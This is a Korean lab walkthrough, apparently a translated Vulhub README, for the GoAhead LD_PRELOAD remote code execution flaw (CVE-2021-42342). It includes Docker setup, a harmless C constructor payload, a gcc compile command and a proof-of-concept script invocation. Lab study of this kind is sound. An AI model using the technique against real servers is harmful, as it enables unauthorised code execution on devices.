 # GoAhead Web Server Environment Variables Injection and 'LD_PRELOAD' Remote Code Execution (CVE-2021-42342)

GoAhead 4.x 및 5.x, 즉 5.1.5 이전 버전에서 발견된 문제가 있습니다.파일 업로드 필터에서 사용자 양식 변수가 CGI 접두사 없이 CGI 스크립트로 전달될 수 있습니다. 이는 신뢰할 수 없는 환경 변수를 취약한 CGI 스크립트로 터널링할 수 있게 합니다.
공격자는 이 기능을 사용하여 멀티파트 양식에 공유 라이브러리 페이로드를 업로드하고 LD_PRELOAD 환경 변수를 탈취하여 임의의 코드를 실행할 수 있습니다.

이 취약성은 CVE-2017-17562의 패치 우회입니다.

References:

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 취약 환경구성

다음 명령어로 GoAhead 5.1.4를 실행 

```
docker compose up -d
```
### your-ip는 ifconfig를 통해서 확인한 본인의 ip주소를 입력하면 된다.
그러면 url에  `http://your-ip:8080`를 입력하면 Congratulations! The server is up and running. 을 확인할 수 있다.
 CGI scripts는 `http://your-ip:8080/cgi-bin/index`.다음 url에서 확인할 수 있다.

## Exploit

우선,이 hijack code(payload.c)를 동적공유라이브러리에 컴파일한다.:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

> 명심해야 할 건, GoAhead는 거의 대부분의 IoT 디바이스에서 실행되는 간단한 임베디드 웹 서버이므로, 동적 공유 라이브러리의 형식은 타겟 서버의 아키텍처에 따라 다르다. 비록, vulhub는 당신에게 간단한 예제를 보여주지만, real world에서는 exploit을 컴파일하는 것은 이 메뉴얼만큼 쉽지는 않다.

x86/64 환경에서 컴파일 :

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```


우리는 [this script](poc.py) 로 취약점을 확인해볼 것이다.

```
python3 poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```
만약 이 부분에서 "Example"이 나오지 않고 오류가 나온다면 스크립트의 파일 권한이 없어서 그럴 수 있기 때문에 docker에서 index에 실행권한이 있는지 확인하고, 없다면 실행권한을 부여해야 한다.

![image](https://github.com/ijh4723/whitehat/assets/116932933/895004bc-0d82-46dc-9dff-8fe96017c41b)

hijacking이 성공적으로 됐다.:

